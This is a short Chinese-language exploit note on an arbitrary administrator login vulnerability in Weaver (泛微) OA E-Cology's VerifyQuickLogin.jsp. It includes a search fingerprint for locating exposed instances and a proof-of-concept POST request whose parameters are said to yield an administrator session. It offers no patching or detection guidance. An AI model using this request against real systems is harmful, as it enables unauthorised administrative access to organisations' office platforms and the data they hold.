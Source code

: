 # 泛微OA E-Cology VerifyQuickLogin.jsp 任意管理员登录漏洞

## 漏洞描述

泛微OA E-Cology VerifyQuickLogin.jsp文件中存在任意管理员登录漏洞，攻击着通过发送特殊的请求包可以获取管理员Session

## 漏洞影响

泛微OA E-Cology 

## 网络测绘

app="泛微-协同办公OA"

## 漏洞复现

产品主页

![img](../../../.vuepress/public/img/1659252985356-45185f65-d899-4374-bfa1-b4d7cf397298.png)

验证POC

```php
POST /mobile/plugin/VerifyQuickLogin.jsp
  
identifier=1&language=1&ipaddress=x.x.x.x
```

![img](../../../.vuepress/public/img/1659253382744-eb36ef30-038a-4bb3-8d69-d924411bcf00.png)